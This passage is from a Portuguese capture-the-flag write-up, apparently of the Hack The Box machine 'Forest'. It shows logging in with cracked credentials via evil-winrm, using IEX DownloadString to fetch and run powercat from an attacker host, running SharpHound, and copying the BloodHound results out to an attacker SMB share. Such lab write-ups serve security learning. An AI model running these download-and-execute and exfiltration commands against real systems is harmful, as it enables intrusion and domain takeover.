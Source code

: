 `impacket-psexec htb.local/svc-alfresco:s3rvice@10.10.10.161`

***Sem sucesso!***

### WinRM

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

***Sucesso!***

### HABEMUSS!!!

![Untitled](../assets/img/HTB/HTB-Forest/Untitled%201.png)

---

## Melhorando o shell

Usamos o powercat para melhorar o shell:

`IEX(New-Object System.Net.WebClient).DownloadString('[http://10.10.14.2/powercat.ps1](http://10.10.14.2/powercat.ps1)'`

## BloodHound

Baixando o sharphound pro alvo:

`powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2//sharphound.exe','c:\\windows\\tasks\\sharphound.exe')`

Executando no alvo:

`c:\\windows\\tasks\\sharphound.exe`

Transferindo o resultado pro kali:

`impacket-smbserver samba . -smb2support`

`copy 20221018071247_BloodHound.zip \\10.10.14.2\\samba`

Analisando o resultado:

Temos o caminho do sucesso na seção `Find Shortest Paths to Domain Admins`
